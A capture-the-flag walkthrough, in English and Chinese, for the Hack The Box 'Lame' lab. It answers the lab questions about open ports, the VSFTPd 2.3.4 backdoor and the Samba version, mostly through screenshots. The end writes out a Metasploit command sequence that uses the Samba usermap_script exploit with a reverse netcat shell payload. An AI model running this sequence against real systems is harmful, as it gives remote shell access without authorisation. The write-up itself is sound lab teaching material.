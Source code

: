 HackTheBox

1.How many of the nmap top 1000 TCP ports are open on the remote host?

![image](https://github.com/user-attachments/assets/7a33649b-012d-4895-9da0-32f59dd6302d)

執行畫面

![image](https://github.com/user-attachments/assets/8d83f47a-87e8-48e8-8658-699d7c09fa08)

ans:4

2.What version of VSFTPd is running on Lame?

![image](https://github.com/user-attachments/assets/37503d04-baa6-4d9c-9a9b-000583c989a6)

執行畫面

![image](https://github.com/user-attachments/assets/fe00ac21-ba10-41cf-85d2-028db69fb7d0)

ans:2.3.4

3.There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?
  VSFTPd 2.3.4 的後門漏洞在這台 Lame 機器上是否可被成功利用？

  ![image](https://github.com/user-attachments/assets/dda3ede2-df54-4fde-9118-e1937bea4c48)

執行畫面

  ![image](https://github.com/user-attachments/assets/5bdf18ac-f39e-4bc8-95b2-bba98ef8a4a4)

  ![image](https://github.com/user-attachments/assets/6f6b9a00-1239-4e63-b2f8-ccde5d3d4ec4)

執行畫面

  ![image](https://github.com/user-attachments/assets/f838a785-b551-46e4-8646-dea137aee549)

  ![image](https://github.com/user-attachments/assets/ee3c085d-fb0b-4715-88bb-485743bf4ef9)

ans:No

4.What version of Samba is running on Lame? Give the numbers up to but not including "-Debian".
  題目要求你找出在 Lame 靶機 上運行的 Samba（SMB）伺服器版本號，只填寫 數字部分，不要包含像 -Debian 的發行版本資訊。

  ![image](https://github.com/user-attachments/assets/a50f0009-4268-41bd-802d-1dfc4cdc4e3f)
  
  執行畫面
  
  ![image](https://github.com/user-attachments/assets/fa70969f-aeff-4b76-9276-4c7ab9ab4ebe)

  ![image](https://github.com/user-attachments/assets/f0b951f0-3884-41aa-8aef-51feed9fba26)
  
  執行畫面 
  
  ![image](https://github.com/user-attachments/assets/3004d88e-1ee3-499b-ad98-d7fc5621d6f4)

知道版本號，就可以從GOOGLE查該版本的CVE漏洞使用

  ![image](https://github.com/user-attachments/assets/308c8dfc-1b0c-44b8-8485-245a85b0fbab)


5.攻擊流程
Submit the flag located in the makis user's home directory.

![image](https://github.com/user-attachments/assets/690b98e0-ea7a-44a4-8add-b4c0feb760cb)

執行畫面 

![image](https://github.com/user-attachments/assets/b3bd4273-1e2d-4008-9f14-ab16520f7b11)

無法確認版本，改用smbclient

![image](https://github.com/user-attachments/assets/66a0b06c-2804-481f-9d28-77817fd3229a)

找出版本為3.0.20

![image](https://github.com/user-attachments/assets/e62836e2-ec70-40af-8ddc-c6cfed281760)

![image](https://github.com/user-attachments/assets/3abc2f22-f81f-4749-bc2c-1e97e0a56036)


<pre> ```bash msfconsole use exploit/multi/samba/usermap_script set RHOSTS 10.10.10.3 set PAYLOAD cmd/unix/reverse_netcat set LHOST 10.10.14.71 run ``` </pre>



  

  
